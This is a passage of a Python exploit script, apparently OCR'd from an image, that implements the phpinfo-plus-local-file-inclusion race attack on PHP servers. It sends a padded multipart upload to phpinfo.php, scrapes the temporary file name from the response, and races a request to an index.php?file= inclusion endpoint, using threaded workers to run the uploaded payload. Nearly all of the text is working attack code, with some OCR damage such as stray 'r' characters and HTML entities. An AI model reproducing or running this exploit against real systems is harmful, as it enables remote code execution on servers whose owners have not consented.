 ```
%s
-----------------------------7dbff1ded0714--r""" % PAYLOAD
    padding = "A" * 5000
    REQ1 = """POST /phpinfo.php?a=""" + padding + """ HTTP/1.1r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie=""" + padding + """r
HTTP_ACCEPT: """ + padding + """r
HTTP_USER_AGENT: """ + padding + """r
HTTP_ACCEPT_LANGUAGE: """ + padding + """r
HTTP_PRAGMA: """ + padding + """r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714r
Content-Length: %sr
Host: %sr
r
%s""" % (len(REQ1_DATA), host, REQ1_DATA)
    # modify this to suit the LFI script
    LFIREQ = """GET /index.php?file=%s HTTP/1.1r
User-Agent: Mozilla/4.0r
Proxy-Connection: Keep-Aliver
Host: %sr
r
r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) &lt; offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&amp;gt; ")
        fn = d[i + 17:i + 31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter = 0

class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock = l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
```